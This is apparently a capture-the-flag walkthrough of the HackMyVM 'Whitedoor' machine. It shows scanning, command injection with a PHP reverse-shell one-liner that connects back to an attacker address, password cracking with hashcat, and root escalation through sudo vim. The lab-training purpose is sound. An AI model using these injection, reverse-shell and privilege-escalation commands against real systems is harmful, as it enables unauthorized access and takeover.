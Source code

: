```yaml
---
title: "Whitedoor - Pylon"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - Whitedoor
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Whitedoor - Pylon
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|Whitedoor|
|Author:|[Pylon](https://hackmyvm.eu/profile/?user=Pylon)|
|Release date:|2023-12-15|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Whitedoor)|
|Level:|Easy|
|System:|Linux|
|You'll learn:|reverse shell|

# 01. Entry
**Whitedoor** is the second machine from [Pylon](https://hackmyvm.eu/profile/?user=Pylon). It is easier than the previous one and is recommended for beginners, if someone has not had any experience with this "sport", they can have some fun with it, and for the rest it is a piece of cake, which does not mean that it is bad.
{: .text-justify}
# 02. Beginning
In the beginning there was scanning:
{: .text-justify}
```bash
msf6 exploit(multi/handler) > workspace -a whitedoor
[*] Added workspace: whitedoor
[*] Workspace: whitedoor
msf6 exploit(multi/handler) > db_nmap -A -p- 172.16.1.179
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-15 09:08 CET
[*] Nmap: Nmap scan report for whitedoor.lan (172.16.1.179)
[*] Nmap: Host is up (0.00060s latency).
[*] Nmap: Not shown: 65532 closed tcp ports (reset)
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 21/tcp open  ftp     vsftpd 3.0.3
[*] Nmap: | ftp-anon: Anonymous FTP login allowed (FTP code 230)
[*] Nmap: |_-rw-r--r--    1 0        0              13 Nov 16 22:40 README.txt
[*] Nmap: | ftp-syst:
[*] Nmap: |   STAT:
[*] Nmap: | FTP server status:
[*] Nmap: |      Connected to ::ffff:172.16.1.89
[*] Nmap: |      Logged in as ftp
[*] Nmap: |      TYPE: ASCII
[*] Nmap: |      No session bandwidth limit
[*] Nmap: |      Session timeout in seconds is 300
[*] Nmap: |      Control connection is plain text
[*] Nmap: |      Data connections will be plain text
[*] Nmap: |      At session startup, client count was 3
[*] Nmap: |      vsFTPd 3.0.3 - secure, fast, stable
[*] Nmap: |_End of status
[*] Nmap: 22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
[*] Nmap: | ssh-hostkey:
[*] Nmap: |   256 3d:85:a2:89:a9:c5:45:d0:1f:ed:3f:45:87:9d:71:a6 (ECDSA)
[*] Nmap: |_  256 07:e8:c5:28:5e:84:a7:b6:bb:d5:1d:2f:d8:92:6b:a6 (ED25519)
[*] Nmap: 80/tcp open  http    Apache httpd 2.4.57 ((Debian))
[*] Nmap: |_http-server-header: Apache/2.4.57 (Debian)
[*] Nmap: |_http-title: Home
[*] Nmap: MAC Address: 08:00:27:CD:91:8F (Oracle VirtualBox virtual NIC)
[*] Nmap: Device type: general purpose
[*] Nmap: Running: Linux 4.X|5.X
[*] Nmap: OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
[*] Nmap: OS details: Linux 4.15 - 5.8
[*] Nmap: Network Distance: 1 hop
[*] Nmap: Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: TRACEROUTE
[*] Nmap: HOP RTT     ADDRESS
[*] Nmap: 1   0.60 ms whitedoor.lan (172.16.1.179)
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 11.33 seconds
msf6 exploit(multi/handler) > services 
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.179  21    tcp    ftp   open   vsftpd 3.0.3
172.16.1.179  22    tcp    ssh   open   OpenSSH 9.2p1 Debian 2+deb12u1 protocol 2.0
172.16.1.179  80    tcp    http  open   Apache httpd 2.4.57 (Debian)
```
There are 3 ports open:
{: .text-justify}
- **21/tcp** - FTP
- **22/tcp** - SSH
- **80/tcp** - Apache WWW
# 03. Reverse shell i WWW
There was nothing interesting on the ftp, it was a bit of a misnomer. But when we enter the website we see something like this:
{: .text-justify}
![01](/assets/images/hacking/2023/06/01.png)
W komunikacie jest oznajmione, że działa tylko komenda **ls**:
{: .text-justify}
![Alt text](image.png)
{: .text-justify}
On the server, which I checked, there is probably no **nc** command, but we can immediately go further and do something like this:
## 03a. Listening 
On our server we run:
{: .text-justify}
```bash
nc -lvn -p 12345
```
```bash
listening on [any] 12345 ...
```
## 03b. Web browser 
And in the web browser window we enter:
{: .text-justify}
```bash
ls; php -r '$sock=fsockopen("172.16.1.89",12345);exec("bash <&3 >&3 2>&3");'
```
After a while, **shell** will connect to us::
{: .text-justify}
```bash
connect to [172.16.1.89] from (UNKNOWN) [172.16.1.179] 58258
script /dev/null -c /bin/bash
Script started, output log file is '/dev/null'.
www-data@whitedoor:/var/www/html$ 
```
Sorry - **Pylon** - I took some shortcuts.
{: .text-justify}
# 04. Shell
Type commands:
{: .text-justify}
```bash
cd /home/
find .
```
```bash
find: './Gonzalo': Permission denied
./whiteshell
./whiteshell/Downloads
./whiteshell/.profile
./whiteshell/.local
./whiteshell/.local/share
find: './whiteshell/.local/share': Permission denied
./whiteshell/.bash_logout
./whiteshell/Documents
./whiteshell/Public
./whiteshell/Pictures
./whiteshell/Music
./whiteshell/.bashrc
./whiteshell/Desktop
./whiteshell/Desktop/.my_secret_password.txt
./whiteshell/.bash_history
```
```bash
cat ./whiteshell/Desktop/.my_secret_password.txt
```
```bash
whiteshell:*****
```
We see the password, which is encoded with **Base64**. We decode and have access to the **whiteshell** account:
{: .text-justify}
```bash
base64 -d <<< haselkowbase64
```
# 04. User whiteshell
Being in the whiteshell account, we list all files from the **/home** directory
{: .text-justify}
```bash
find /home/
```
```bash
/home/Gonzalo/.bash_logout
/home/Gonzalo/Documents
/home/Gonzalo/Public
/home/Gonzalo/Pictures
/home/Gonzalo/Music
/home/Gonzalo/.bashrc
/home/Gonzalo/Desktop
/home/Gonzalo/Desktop/user.txt
/home/Gonzalo/Desktop/.my_secret_hash
```
# 05. User Gonzales
We have a password that is easy to crack in the program: **Hashcat** or **John**
{: .text-justify}
```bash
hashcat -O -m3200 -a0 hashe\whiteshell.txt dict\rockyou.txt
```
# 06. root
Wpisujemy:
{: .text-justify}
```bash
Gonzalo@whitedoor:~$ sudo -l
```
```bash
Matching Defaults entries for Gonzalo on whitedoor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User Gonzalo may run the following commands on whitedoor:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```
```bash
sudo /usr/bin/vim
```
W programie **Vim** zaś:
{: .text-justify}
```bash
:!bash
```

